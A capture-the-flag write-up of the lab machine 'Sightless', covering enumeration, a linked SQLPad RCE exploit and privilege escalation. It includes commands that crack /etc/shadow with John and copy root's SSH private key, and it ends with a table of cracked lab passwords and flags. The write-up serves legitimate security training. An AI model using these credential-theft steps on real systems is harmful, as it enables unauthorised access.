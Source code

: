 # CTF Report: [SIGHTLESS]
*Date of test*: [2024/09/30]  
*Author*: [Annese Gabriele]  
*Difficulty Level*: [Easy]  

---

## 1. Overview
**Machine Name**: [SIGHTLESS]  
**Operating System**: [Linux]  
**IP Address**: [10.10.11.32]  
**Objective**: Gain root/administrator access to the machine and retrieve the flags.

---

## 2. Reconnaissance

### 2.1. Initial Nmap Scan
```bash
nmap -F -sV -sC -oN defaul_port_scan.txt 10.10.11.32
Nmap scan report for sightless.htb (10.10.11.32)
Host is up (0.096s latency).
Not shown: 97 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Sightless.htb
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/30%Time=66FB0CEB%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20
SF:Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20
SF:try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x
SF:20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 30 16:42:12 2024 -- 1 IP address (1 host up) scanned in 68.44 seconds
```

### 2.1. Explore WebSite
Looking the source code of the web site i found one subdomain and the email

![[Pasted image 20240930224711.png]]
Add the subdomain to the file hots
![[Pasted image 20240930224834.png]]
### 2.3. Enum the subdomain
when try to brute force the directory the gobuster tool return this error
```
Error: the server returns a status code that matches the provided options for non existing urls. http://sqlpad.sightless.htb/521f0d2f-b469-4820-834c-7a00c89edf74 => 200 (Length: 722). To continue please exclude the status code or the length

```

![[Pasted image 20240930230624.png]]
For go forward i exclude the `722 length`
```bash
sudo gobuster dir -u http://sqlpad.sightless.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --exclude-length 722 -o directory_list 
```

i dont found nothig of interesteing

## 3. Exploit
Search online for CVE of SQLPad i found a [RCE](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/blob/main/README.md) vulnerability with `api\test-connection`. Connect directly with root
![[Pasted image 20241001000131.png]]

### 4. Privilege Escalation
After run linepeas i notice the /etc/shadow are readable and writable 

![[Pasted image 20241002233956.png]]

Try to crack password using John. First copy and paste the passwd and shadow file and use the **unshadow** tool for prepare input file to pass a John
```bash
unshadow passwd.txt shadow.txt >> inputJohn
```

Crack passwd
```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt inputJohn
```

![[Pasted image 20241003001456.png]]
Connect with ssh and michael user and find the first flag
![[Pasted image 20241003001710.png]]
## 4 Internal Port Scan
with netstat i enumerate the open port on the system 
```bash
netstat -tnlp
```
![[Pasted image 20241006145840.png]]

Now forwarded the 8080 traffic on my machine using ssh
```bash
 ssh -L 8080:127.0.0.1:8080 -L 3306:127.0.0.1:3306 -L 47003:127.0.0.1:47003 -L 36613:127.0.0.1:36613 -L 41463:127.0.0.1:41463 -L 33060:127.0.0.1:33060 -L 3000:127.0.0.1:3000 michael@sightless.htb
```
![[Pasted image 20241006150528.png]]

Google Debugger è uno strumento potente per il debugging delle applicazioni, soprattutto in ambienti di produzione, perché consente di catturare lo stato dell'applicazione senza interromperne il funzionamento. Tuttavia, se non configurato correttamente, può essere sfruttato come vulnerabilità, poiché un attaccante potrebbe ottenere accesso non autorizzato a informazioni sensibili dell'applicazione.

![[Pasted image 20241006160147.png]]
![[Pasted image 20241006161448.png]]

![[Pasted image 20241006161454.png]]
### 4.1 Capture the flag 
Copy the root.txt in tmp directory
![[Pasted image 20241007212717.png]]
Now navigate on the setting > PHP-FPM and stop and start the Enable php-fpm

![[Pasted image 20241007212805.png]]

now set permission to read the flag with chmod 777
![[Pasted image 20241007213613.png]]


![[Pasted image 20241007213548.png]]


### 4.2 Spawn root privilege shell
cp from /root/.ssh/id_rsa to /tmp/id_rsa and set permission and execute ssh
```bash
cp /root/.ssh/id_rsa /tmp/id_rsa
chmod 777 /tmp/id_rsa
ssh -i /tmp/id_rsa root@10.10.11.32
```

![[Pasted image 20241007222925.png]]
## Loot

| User    | Pwd              |
| ------- | ---------------- |
| root    | blindside        |
| michael | insaneclownposse |
| admin   | ForlorfroxAdmin  |


| User | flag                             |
| ---- | -------------------------------- |
| user | 501dc92dbd0ba17555f2ce191802ba82 |
| root | 67a8a1c6d3ecc49a9f11620ea6cff75c |

